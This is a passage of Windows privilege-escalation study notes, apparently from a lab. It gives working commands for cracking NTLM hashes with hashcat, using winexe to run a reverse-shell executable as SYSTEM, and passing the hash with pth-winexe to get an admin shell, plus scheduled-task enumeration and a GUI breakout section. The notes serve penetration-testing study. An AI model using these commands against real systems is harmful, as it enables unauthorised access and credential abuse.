 On analysis the LM hashes are same meaning. They are empty and deprecated and the second part of the hash is the NTLM hash which is different for different users. If it begins 31d6 then it is for  a default account with no password or disabled.

Hashes can be cracked using hashcat

```zsh
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```

Login using winexe

```zsh
winexe -U 'admin%password123' --system //192.168.158.153 'C:\PrivEsc\reverse.exe'

```

### Passing the Hash
Windows accepts hashes instead of passwords to authenticate  to anumber of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt as admin using admin hash

```zsh
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.158.153 cmd.exe
```
Please note to remove the dots in the end and anything between the username and the LM hash with a % symbol

```zsh
 pth-winexe --system  -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.158.153 cmd.exe
```

## Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon).Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users,including SYSTEM.

```cmd
 schtasks /query /fo LIST /v
```
In powershell

```ps
 Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

```
Just use your brain like happens in Linux cron jobs

## Insecure GUI Apps(Citrix Method)

On some (older) versions of Windows, users could be granted the permission to run certain GUI apps with administrator privileges.
There are often numerous ways to spawn command prompts from within GUI apps, including using native Windows functionality.
Since the parent process is running with administrator privileges, the spawned command prompt will also run with these privileges.
I call this the “Citrix Method” because it uses many of the same techniques used to break out of Citrix environments.
